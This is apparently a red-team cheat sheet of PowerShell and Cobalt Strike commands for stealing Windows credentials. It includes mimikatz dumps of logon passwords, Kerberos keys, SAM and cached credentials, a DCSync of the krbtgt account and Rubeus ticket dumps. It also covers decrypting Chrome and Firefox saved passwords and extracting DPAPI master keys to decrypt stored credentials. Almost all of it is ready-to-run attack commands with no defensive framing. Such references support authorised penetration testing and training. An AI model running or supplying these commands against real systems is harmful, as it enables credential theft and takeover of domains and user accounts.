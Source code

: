 ### Cobalt Strike
```powershell
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::ekeys
mimikatz !lsadump::sam
mimikatz !lsadump::cache

make_token marvel\administrator P@ssw0rd
mimikatz @lsadump::dcsync /user:marvel\krbtgt
mimikatz @lsadump::dcsync /domain:marvel.local /all /csv
rev2self
```

### NTLM RC4 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > res1.txt
type .\res1.txt | sls 'username|password|ntlm'
```

### Kerberos AES256 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys" exit > res2.txt
type .\res2.txt | sls 'username|password|des_cbc_md4'
```

### Local Users Hash Dump (SAM)
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit > res3.txt
type .\res3.txt | sls "user :|hash|aes256"
```

### Domain Cached Credentials
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Kerberos Tickets Dump
```powershell
execute-assembly /root/Rubeus.exe triage
execute-assembly /root/Rubeus.exe dump /nowrap > res4.txt
execute-assembly /root/Rubeus.exe dump /nowrap /luid:0x70331 /service:krbtgt
```

### Chrome Credentials
```powershell
https://github.com/djhohnstein/SharpChromium
SharpChromium.exe all > res.txt

https://github.com/ohyicong/decrypt-chrome-passwords
python3 .\decrypt_chrome_password.py > res.txt
```

### Firefox Credentials
```powershell
https://github.com/unode/firefox_decrypt
python3 .\firefox_decrypt.py
```

### DPAPI

#### Enum
```powershell
vaultcmd /list
vaultcmd /listcreds:"Windows Credentials" /all
```

#### Dump encrypted credentials (pbData) and the related master key ID (guidMasterKey) 
```powershell
ls -Hidden C:\users\user2\appdata\local\microsoft\credentials\
mimikatz.exe "dpapi::cred /in:C:\users\user2\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit > res1.txt
```

#### Get Master Key File (Encrypted)
```powershell
ls -Hidden C:\users\user2\appdata\roaming\microsoft\protect\<SID>\<MasterKey>
```

#### 1. If the key is cached in LSASS (Admin User)
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > res2.txt
type res2.txt | sls "user name|guid|masterkey"
```

#### 2. Interact with the DC through the MS-BKRP RPC service (Domain User)
```powershell
mimikatz.exe "dpapi::masterkey /in:C:\users\user2\appdata\roaming\microsoft\protect\S-1-5-21-410602843-3916082903-3170366279-1119\7f1985f1-624d-4024-b36d-c0ca6d6b3766 /rpc" exit
```

#### Decrypting
```powershell
mimikatz.exe "dpapi::cred /in:C:\users\hassan\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D /masterkey:d5b953e1efc3890d63921fc7bd816a26c913dcc47df52b8e18b56a466ca0e1bd486fd6c9b93d31105af1c84ab7ceba1e00216d99e2601c058bdc6af3a00860d0" exit
```
